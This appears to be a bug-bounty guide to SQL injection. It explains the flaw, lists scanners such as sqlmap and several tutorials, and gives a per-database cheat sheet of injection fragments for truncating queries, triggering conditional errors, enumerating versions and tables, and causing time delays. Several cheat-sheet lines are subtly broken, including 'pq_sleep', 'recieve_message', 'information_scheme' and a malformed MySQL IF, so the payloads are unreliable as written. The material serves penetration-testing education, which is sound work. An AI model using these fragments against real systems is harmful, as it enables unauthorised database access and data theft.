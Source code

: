 # SQL Injection

As a bug bounty hunter, SQL injection vulnerabilities are a high-priority target because they can allow attackers to gain unauthorized access to sensitive information or even take control of a website or application.

SQL injection occurs when an attacker is able to inject malicious SQL code into a vulnerable web application, which is then executed by the database. This can happen when an application does not properly sanitize user input, allowing an attacker to insert their own SQL statements.

## To find SQL injection vulnerabilities, a bug bounty hunter can use a variety of methods, including:

Manual testing: By using tools like Burp Suite or OWASP ZAP, a tester can manually inject SQL code into web forms and other input fields to see if the application is vulnerable. This method is time-consuming and requires a high degree of technical knowledge.

Automated testing: There are many automated vulnerability scanners that can detect SQL injection vulnerabilities, such as SQLMap or Netsparker. These tools can scan an entire application and report any vulnerabilities they find, which can save time for the tester.

Fuzzing: Fuzzing involves generating large amounts of random or semi-random input to see how the application responds. By fuzzing an application's input fields, a tester can sometimes trigger unexpected behavior that reveals a SQL injection vulnerability.

Once a SQL injection vulnerability has been identified, a bug bounty hunter can typically exploit it to gain unauthorized access to the application or database. This might involve using SQL commands to extract data, modify data, or even execute code on the server.

It's important to note that SQL injection vulnerabilities can be prevented by properly sanitizing user input and using prepared statements with parameterized queries. However, many applications still contain these vulnerabilities, which is why they are a popular target for bug bounty hunters.

## Tools to help find SQL Injection Vulnerabilities
* [sqlmap](https://github.com/sqlmapproject/sqlmap) - Automatic SQL Injection and Database takeover tool
* [NoSQLMap](https://github.com/codingo/NoSQLMap) - Automated NoSQL database enumeration and web app exploit tool
* [SQLiScanner](https://github.com/0xbug/SQLiScanner) - This is an automatic SQL Injection with sqlmap api
* [sqli-hunter](https://github.com/zt2/sqli-hunter) - It is a simple HTTP/HTTPS proxy server that helps in finding SQL Injections
* [waybacksqlscanner](https://github.com/ghostlulzhacks/waybackSqliScanner) - This gathers urls from the wayback machine then tests for sql injection using the GET parameter
* [burp-to-sqlmap](https://github.com/Miladkhoshdel/burp-to-sqlmap) - This performs SQLInjection test on Burp Suite Bulk Requests using SQLMap
* [andor](https://github.com/sadicann/andor) - Blind SQL Injection tool written in Golang
* [nosqli](https://github.com/Charlie-belmer/nosqli) - NoSql Injection Command Line Tool that finds websites using MongoDB

## Good Tutorials for SQL Injection
* [What is SQL Injection? Tutorial and Examples](https://portswigger.net/web-security/sql-injection) - A tutorial from PortSwigger
* [SQL Injection Tutorial: Learn with Example](https://www.guru99.com/learn-sql-injection-with-practical-example.html) - A pretty good overview of SQL Injection by Guru99
* [SQL Injection - W3 Schools](https://www.w3schools.com/sql/sql_injection.asp) - An overview of SQL Injection by W3Schools
* [SQL Injection Tutorial](https://hackertarget.com/sql-injection/) - A tutorial that is pretty good by Hacker Target


## SQL Injection Cheat Sheet

Below is a pretty good cheat sheet on SQL Injection. It is organized mostly by the manufactuer but some of the code examples can be used universally. Once you understand the principles of SQL Injection this will make a lot more sense.

### String concatenation

String concatention is the process of putting two strings together

**Oracle**
```
'bond' || 'james bond'
```
**Microsoft**
```
'bond' + 'james bond'
```
**PostgreSQL**
```
'bond' || 'james bond'
```
**MySQL**
```
CONCAT('bond', 'james bond')
```

### Substring

**Oracle**
```
SUBSTR('james bond', 3, 2)
```
**Microsoft**
```
SUBSTRING('james bond', 3, 2)
```

**PostgresSQL**
```
SUBSTRING('james bond', 3, 2)
```

**MySQL**
```
SUBSTRING ('james bond', 3, 2)
```

### Comments

You can use comments to truncate or end a query

**Oracle**
```
--comment
```

**Microsoft**
```
--comment
/* comment */
```

**PostgreSQL**
```
--comment
/* comment */
```
**MySQL**
```
#comment
-- comment {This has a space after the double dash}
/* comment */

```

### Conditional Errors

Testing for a single boolean condition can trigger a database error and that can reveal quite a bit about the database and its contents

**Oracle**
```
SELECT CASE WHEN (CONDITON-YOU-ARE-TESTING) THEN TO_CHAR (1/0) ELSE NULL END from dual
```
**Microsoft**
```
SELECT CASE WHEN (CONDITON-YOU-ARE-TESTING) THEN 1/0 ELSE NULL END
```
**ProgreSQL**
```
1 = (SELECT CASE WHEN(CONDITON-YOU-ARE-TESTING) THEN 1/(SELECT 0) ELSE NULL END)
```
**MySQL**
```
SELECT IF(CONDITON-YOU-ARE-TESTING, (SELECT table_name FROM information_scheme.tables,'a'))
```

### Database Version

Determing the type and version of a database is crucial to finding out if it may be vulnerable to SQL Injection

**Oracle**
```
SELECT banner FROM v$version
SELECT version FROM v$instance
```

**Microsoft**
```
SELECT @@version
```

**PostgreSQL**
```
SELECT version()
```
**MySQL**
```
SELECT @@version
```
## Database Contents

Revealing the table contents can be a big win when performing a penetration test

**Oracle**
```
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'INSERT TABLE NAME'
```

**Microsoft**
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'INSERT TABLE NAME'
```
**PostgreSQL**
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema_columns WHERE table_name = 'INSERT TABLE NAME'
```

**MySQL**
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'INSERT TABLE NAME'
```

### Time Delays

A time delay may cause a SQL database to become vulnerable or allow other attack vectors
The follow shows how to create a delay of 15 seconds, you can of course do it for however long or short you want

**Oracle**
```
dbms_pipe.recieve_message(('error'), 15)
```
**Microsoft**
```
WAITFOR DELAY '0:0:15'
```

**PostgreSQL**
```
SELECT pq_sleep(15)
```
**MySQL**
```
SELECT SLEEP(15)
```
